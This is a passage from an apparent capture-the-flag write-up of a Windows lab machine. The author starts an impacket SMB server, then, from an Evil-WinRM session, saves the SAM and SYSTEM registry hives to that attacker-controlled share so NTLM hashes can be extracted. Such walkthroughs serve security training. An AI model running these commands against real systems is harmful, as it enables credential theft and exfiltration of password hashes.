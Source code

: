 
> Ok. To begin with, I'll launch a local `SMB` server via `impacket` and for authorization to the network share I'll specify simple credentials:

```bash

impacket-smbserver -smb2support -username 'user' -password 'password' public share

```
> Result:

```bash

Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies

[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0

```
> This is necessary to be able to make backups of system files and save them on my share.

> We make a dump of the system files `SAM` and `SYSTEM` from the registry and save them in `public` (`public` -> `share`)

```bash

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> net use \\10.10.14.10\public /user:user password
The command completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> reg save HKLM\SAM \\10.10.14.10\public\sam.sav
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> reg save HKLM\SYSTEM \\10.10.14.10\public\system.sav
The operation completed successfully.

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop>

```
> Result:

```bash

sonyahack1 kali ~/share
❯ ls -lah
total 18M

drwxrwxr-x  2 sonyahack1 sonyahack1 4.0K Jul 29 22:42 .
drwx------ 33 sonyahack1 sonyahack1 4.0K Jul 29 22:42 ..
-rwxrwxr-x  1 sonyahack1 sonyahack1  48K Jul 29 22:40 sam.sav
-rwxrwxr-x  1 sonyahack1 sonyahack1  18M Jul 29 22:40 system.sav

```
> Using the `secretsdump` script from the `impacket` suite, I extract `NTLM hashes` from the dumps:
